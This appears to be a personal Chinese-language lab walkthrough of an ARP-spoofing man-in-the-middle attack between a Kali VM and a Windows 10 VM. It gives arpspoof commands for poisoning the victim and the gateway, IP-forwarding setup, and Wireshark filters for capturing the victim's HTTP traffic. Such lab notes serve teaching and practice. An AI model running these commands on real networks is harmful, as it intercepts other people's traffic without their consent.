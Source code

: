 攻击机：kali2019_x64_en-us  
受害机：win10_pro_x64_zh-chs_commando

用到的软件：  
0：arpspoof（kali中自带）  
1：wireshark（kali中自带）

攻击机：  
0.5：cat /proc/sys/net/ipv4/ip_forward # 查看是否开启ipv4的包转发，0为关闭，1为开启  
0.6：echo 1 > /proc/sys/net/ipv4/ip_forward # 开启ipv4的包转发  
0.7：修改文件/etc/sysctl.conf，取消注释net.ipv4.ip_forward=1这行 # 永久开启ipv4的包转发  
0.8：ifconfig -a # 查看当前网卡名称  
1：arpspoof -i eth0 -t 172.16.35.133 172.16.35.2 # 172.16.35.133是受害机的ip，172.16.35.2是网关ip，欺骗受害机（172.16.35.133）来让它以为网关（172.16.35.2）是我  
2：arpspoof -i eth0 -t 172.16.35.2 172.16.35.133 # 这条命令中将受害者ip和网关ip互换，欺骗网关（172.16.35.2）以为受害机（172.16.35.133）是我  
2.5：让子弹飞一会（让mac欺骗的流量跑一会）  
3：开启wireshark，设置过滤器为http and ip.addr==111.26.219.37 # 其中111.26.219.37为受害机访问的网站，注意这里是双等号不是单等号
3.5：wireshark过滤器总结  
http and ip.addr==111.26.219.37 and tcp.port==9090
